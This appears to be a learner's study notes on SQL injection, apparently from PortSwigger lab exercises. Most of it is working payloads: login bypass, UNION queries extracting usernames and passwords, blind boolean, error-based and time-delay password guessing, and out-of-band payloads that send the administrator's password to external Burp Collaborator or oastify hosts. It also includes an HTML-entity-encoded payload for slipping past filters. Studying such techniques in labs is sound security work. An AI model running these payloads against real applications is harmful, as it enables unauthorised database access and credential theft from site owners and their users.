 SQL Injections - web vulnerability that allows an attacker to interfere with database queries of an application.
Can enable attackers to view, modify, delete data they shouldnt access.
<b>The ability to insert sql code into sql statement</b>

Detection:

- ` " ') ") .... test basic chars
- OR 1=1
- use comments symbols

Most SQL injections occurs:

- within WHERE of SELECT.
- In Update with WHER
- In Insert
- Select with Order By

---

https://insecure-website.com/products?category=Gifts
SELECT \* FROM products WHERE category = 'Gifts' AND released = 1

https://insecure-website.com/products?category=Gifts'--
SELECT \* FROM products WHERE category = 'Gifts'--' AND released = 1

=> Display not released products in category

https://insecure-website.com/products?category=Gifts'+OR+1=1--
SELECT \* FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

=> Display all products

administrator'--
SELECT \* FROM users WHERE username = 'administrator'--' AND password = ''

=> Bypass password check

<b>Union Attack</b> - "Union" operator combines results of two or more queries into signle row.

SELECT username, email FROM users WHERE id = '1';
ID: '1' UNION SELECT null, database()--
SELECT username, email FROM users WHERE id = '1' UNION SELECT null, database()--';
=>

1. First query fetch the username and email
2. Union add the results of another query ( null, database()) which retrieve db name

---

1' ORDER BY 1--

If the query works up to 3 columns and breaks at 4, it means the original query has 3 columns

<i>Check for Compatible Data Types</i>
When numbers of coulmn has known => UNION.
UNION SELECT null, null, null--(or #,....)
=>
UNION SELECT null, null, "a"--
...

If this works, the attacker can start replacing null with actual payloads to extract data

<i>Extract Data</i>
Know how many columns + data types

UNION SELECT null null FROM users--
' UNION SELECT username || '~' || password FROM users-- (concatenating (||) in oracle)

SQL Keywords:

- database()
- @@version
- FROM information_schema.table (db structure, except oracle)
- v$version
- version()

Get tables in DB
SELECT \* FROM information_schema.tables

Get columns in table
SELECT \* FROM information_schema.columns WHERE table_name = 'Users'

1' UNION SELECT table_name,null FROM information_schema.tables-- (Get table names)
1' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users_nulpja' (get table columns)
1' UNION SELECT username_dyqewc,password_tcrncn FROM users_nulpja (Get table data)

https://portswigger.net/web-security/sql-injection/cheat-sheet

<i>Blind SQLi:</i>
Application vulnerable to SQLi but http reponse dont contain the result of SQL query or errors.

Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'

We have Users with password,username. <b>Blind test on admin password (0 letter > m)</b>
TrackingId=A2FGKLWwfWFNdOLB' AND (SELECT SUBSTRING(password,§1§,1) From users where username='administrator')='§g§

<i>Blind SQLi with conditional errors</i>
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a

xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
Same like before, but with error as a trigger to understand.

<b>
In previous scenario, we have "welcome message" from backend if sql query loads fine.
In this scenario, we use 500 error as correct signal
</b>

<i>Verbose SQL error messages</i>
We can use error messages from DB in our purpose.
We can use "CAST" funciton to provoke error message that leak sensitive data.

CAST((SELECT example_column FROM example_table) AS int)
We can cast string to int, to provoke error
ERROR: invalid input syntax for type integer: "Example data"

CAST((SELECT 1) AS int):

- Select 1 - simple query that select "1" (used to test query structure)

---

<b>If the Application catches db errors and handling are correct => there won't be any difference in response</b>
<i>Application does not respond any differently based on whether the query returns any rows or causes an error.</i>
In this case, we can use <b>Time Delay triggers</b> to determine the truth of injected condition.

<code>
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
</code>

In lab "Blind SQL injection with time delays and information retrieval"

- TrackingId=1'||pg_sleep(10)--;
  At this stage, we know, this db is vulnerable.
- 1';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
  Here we used condition+delay, by ";" we terminate original request
- 1'; SELECT CASE WHEN (Select COUNT(username) from Users where username='administrator' AND SUBSTRING(password,1,1)>'a')=1 THEN pg_sleep(3) ELSE pg_sleep(0) END--
  Here we can iterate throught password and crack password
- Add to intruder SUBSTRING(password,{index},1)='{letter}'
  nv1veh43t3ign5tv6jgz

---

<b>OAST technique </b>
Some dbs have built in function to resolve hostnames or to connect to external.
In PG, pg_read_files() or function in (PL/pgsql, PL/Perl, Pl/Python), or custom extensions to perform HTTP calls.

In MSSQL: <code>'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
</code>

copy (SELECT '') to program 'nslookup r6y3d1v37twqiqcycw2h3nxpxg37rxfm.oastify.com'

LOAD_FILE('\\\\6y3d1v37twqiqcycw2h3nxpxg37rxfm.oastify.com\\a')
SELECT ... INTO OUTFILE '\\\\6y3d1v37twqiqcycw2h3nxpxg37rxfm.oastify.com\a'--

Solution1:
1' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://y3d1v37twqiqcycw2h3nxpxg37rxfm.oastify.com/"> %remote;]>'),'/l') FROM dual--

Data Exfilatrtion Example:
<code>'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--</code>

Solution2:
x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.6t0i0giiu8j555zdzbpwq2k4kvqnej28.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--

<b>XML context</b>
Solution1:
Union Select password from users where username='administrator'--
OR
1&#85;&#110;&#105;&#111;&#110;&#32;&#83;&#101;&#108;&#101;&#99;&#116;&#32;&#112;&#97;&#115;&#115;&#119;&#111;&#114;&#100;&#32;&#102;&#114;&#111;&#109;&#32;&#117;&#115;&#101;&#114;&#115;&#45;&#45;
(Cyberchef "to HTML" format)
